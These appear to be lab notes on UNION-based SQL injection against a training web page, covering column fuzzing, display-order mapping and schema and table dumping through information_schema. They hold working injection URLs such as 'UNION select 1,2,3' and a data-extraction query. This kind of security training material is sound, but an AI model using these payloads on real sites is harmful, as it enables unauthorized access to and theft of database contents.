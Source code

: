 
- all of the above work 







###### 2. Determine the number of columns that exist on the table displayed on the webpage via Fuzzing

- rows: 5
- Columns: 3 ((start at lowest))

- http://10.50.21.144/uniondemo.php?Selection=2 or 1=1
- http://10.50.21.144/uniondemo.php?Selection=2 UNION select 1,2,3	#works ((all others work too))

##### 3. Determine the number of columns, the order, and if there are any hidden columns

Columns: 3
Display order: 1,2,3

Backend Order: 1 | 2 | 3
Webpage Order: 1 | 3 | 2

##### 4. Dumping/extracting information via golden statement

- Generic SQL Statement
- `select <column> from <<database>.<table>`

- Generic golden statement
- `select table_schema,table_name,column_name from information_schema.columns`


http://10.50.21.144/uniondemo.php?Selection=2 UNION select table_schema,table_name.column_name from information_schema.columns

- Backend Order:
table_schema | table_name | column_name
----------------------------------------
1	     |      2     |      3


- Webpage Display Order:
table_schema | column name | table_name
----------------------------------------
1             |      3      |     2



- if you wanted to get the following:
1. name,type,year
2. session
3. car

then:
- http://10.50.21.144/uniondemo.php?Selection=2 UNION select name,type,year FROM session.car

